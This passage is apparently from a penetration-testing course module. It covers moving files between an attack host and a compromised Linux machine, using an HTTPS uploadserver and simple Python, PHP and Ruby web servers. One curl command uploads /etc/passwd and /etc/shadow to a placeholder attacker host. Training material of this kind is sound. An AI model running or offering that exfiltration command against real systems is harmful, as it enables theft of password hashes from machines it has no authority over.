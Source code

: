 -----
For this Linux example, let's see how we can configure the `uploadserver` module to use `HTTPS` for secure communication.

- Start Web Server on attack host
```bash
sudo python3 -m pip install --user uploadserver
```

We need to create a certificate, we are using a self-signed certificate.

- Create a self-signed certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

- Start web server
```bash
mkdir https && cd https
```

```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

Now from the compromised machine, we can upload files.

```bash
curl -X POST https://<attack-host-ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.


#### Alternative Web File Transfer Methods
---
##### Linux - Creating a Web Server with Python3
```bash
python3 -m http.server
```

##### Linux - Creating a Web Server with Python2.7
```bash
python2.7 -m SimpleHTTPServer
```

##### Linux - Creating a Web Server with PHP
```bash
php -S 0.0.0.0:8000
```

##### Linux - Creating a Web Server with Ruby
```bash
ruby -run -ehttpd . -p8000
```

##### Download the File from the Target Machine onto the Pwnbox
```bash
wget <target-machine-ip>:8000/filetotransfer.txt
```

